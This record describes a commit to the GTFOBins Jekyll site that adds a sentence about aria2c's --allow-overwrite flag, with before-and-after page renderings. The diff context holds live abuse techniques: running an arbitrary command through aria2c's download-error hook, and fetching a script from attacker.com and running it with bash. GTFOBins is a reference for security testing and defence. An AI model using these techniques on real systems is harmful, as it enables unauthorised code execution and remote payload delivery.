

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/aria2c.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1154 px from its top, so only the background shows below that.

Commit message:
Clarify aria2c --allow-overwrite
As discussed in #22.

```diff
--- a/_gtfobins/aria2c.md
+++ b/_gtfobins/aria2c.md
@@ -8,7 +8,7 @@ functions:
         echo "$COMMAND" > $TF
         chmod +x $TF
         aria2c --on-download-error=$TF http://x
-    - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed.
+    - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed. `--allow-overwrite` is needed if this is executed multiple times with the same GID.
       code: aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
   suid-enabled:
     - code: |
```
